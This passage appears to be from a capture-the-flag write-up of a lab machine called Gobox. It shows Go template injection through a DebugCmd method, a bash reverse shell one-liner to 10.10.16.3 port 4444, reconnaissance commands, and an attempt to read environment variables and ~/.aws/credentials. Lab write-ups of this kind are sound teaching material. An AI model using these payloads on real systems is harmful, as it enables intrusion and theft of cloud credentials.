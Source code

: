 Let’s login:

```bash
ippsec@hacking.esports:ippsSecretPassword
```

After logging in, we get the source code:

![image.png]({{ site.baseurl }}/assets/gobox/image%204.png)

The DebugCmd method executes system command and allows users to also add an argument. Let’s try it out:

```bash
{{ .DebugCmd "id" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%205.png)

Let’s try getting a reverse shell

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.3/4444 0>&1'
```

![image.png]({{ site.baseurl }}/assets/gobox/image%206.png)

We get a Bad Gateway error. Maybe our machine is not reachable. Let’s check the IP of the target:

```bash
email={{ .DebugCmd "ip a" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%207.png)

```bash
{{ .DebugCmd "cat /etc/hosts" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%208.png)

Let’s also check our hostname:

```bash
{{ .DebugCmd "hostname" }}
```

![image.png]({{ site.baseurl }}/assets/gobox/image%209.png)

Since the hostname is aws, let’s see if there’s aws storage. First check our  env:

```bash
{{ .DebugCmd "env" }}

OR 

{{ .DebugCmd "~/.aws/credentials" }}
```
